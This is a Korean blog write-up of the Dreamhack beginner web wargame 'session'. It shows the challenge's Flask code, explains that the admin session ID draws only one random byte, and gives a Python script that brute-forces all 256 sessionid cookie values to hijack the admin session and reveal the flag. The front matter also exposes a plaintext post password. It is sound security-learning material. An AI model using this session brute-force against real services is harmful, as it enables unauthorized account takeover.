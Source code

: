 ```yaml
---
title: "🔒 (B) session"
date: 2025-08-08 00:00:00 +0900
categories: ["< Dreamhack >", Wargame, "- Web"]
tags: [dreamhack, wargame, beginner, session, brute force, python]
published: true
password: "tjwjddltoddlf"
abstract: "해당글은 비밀글 입니다."
message: "비밀번호를 입력하세요."
---
```


## Dreamhack / Wargame

---

#### Difficulty Level : Beginner  
#### Title : session

---

![session1](/assets/img/dreamhack/2025-08-08-14-42-56.png)

우선 문제 vm을 생성하고 접속해봤다.

![session2](/assets/img/dreamhack/2025-08-08-14-43-39.png)

로그인 화면이 보인다.

개발자 도구를 열어보니,

![session3](/assets/img/dreamhack/2025-08-08-14-44-21.png)

기본 계정은 `guest / guest` 라고 한다.

이걸 입력해서 로그인을 해보니 다음과 같이 나왔다.

![session4](/assets/img/dreamhack/2025-08-08-14-44-59.png)

> Hello guest, you are not admin

개발자 도구에서 쿠키도 확인해보니

![session5](/assets/img/dreamhack/2025-08-08-15-10-21.png)

`sessionid` 라는 이름으로 쿠키를 관리하고 있는 것을 볼 수 있었다.

<br>

이후에도 분석을 해봤지만 얻을 수 있는 정보는 없었다.

다음으로 문제에서 제공한 소스 코드를 읽어 봤다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

<br>

여기서 눈여겨 봐야할 부분은 바로 맨 마지막 코드 부분이다.

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

`session_storage[key] = 'value'`
- session_storage는 딕셔너리 형태이다. (서버 메모리 세션 DB)
    - key : Session ID
    - value : username

`os.urandom(1)`
- 운영체제 레벨의 암호학적 난수 바이트를 1바이트(8비트) 뽑음
    - 뽑힐 수 있는 값(16진수로 각각 4비트씩 차지) : 00 ~ FF => **256가지**

`hex()`
- 바이트 열을 16진수 문자열로 변환. 
    - ex. b"\x07" -> "07"

`login` 라우트 부분에서 세션 쿠키를 설정할 때 **4바이트 난수**를 사용하지만,  
여기서는 admin 세션 생성에 **1바이트**을 사용하는 것을 볼 수 있다.

정리하면,
서버가 시작될 때 무작위 2자리 16진수 문자열을 session ID로 하여 관리자 계정 세션을 미리 등록한다.
따라서 클라이언트가 이 값을 알아내면, sessionid 쿠키 값을 해당 문자열로 바꾸는 것만으로 admin 권한을 획득할 수 있을 것이다.

<br>

키 공간(경우의 수)는 256개 뿐이기에 Brute Force를 통해 충분히 탈취해볼만 하다.

sessionid 값을 00~ff 까지 바꿔가며 요청을 보내보고,  
"flag is" 라는 값이 나오면 화면에 출력되도록 스크립트를 작성해보자.
("flag is"라는 포멧은 '/' 라우트에서 확인할 수 있었음)

<br>

### 작성한 소스코드 (Python)

(pip 를 이용해 requests 모듈을 미리 설치해주어야 함)

```python
import requests

url = "http://host8.dreamhack.games:20075/"
for i in range(256):
    sessionid = f"{i:02x}"
    r = requests.get(url, cookies={"sessionid": sessionid})
    if "flag is" in r.text:
        print("admin sessionid:", sessionid)
        print(r.text)
        break
```
(bruteForce.py)

실행하면?

`python3 bruteForce.py`

![session6](/assets/img/dreamhack/2025-08-08-15-39-07.png)

admin으로 로그인되면서 플래그를 얻을 수 있게 된다.

<br>

flag : ~~DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}~~



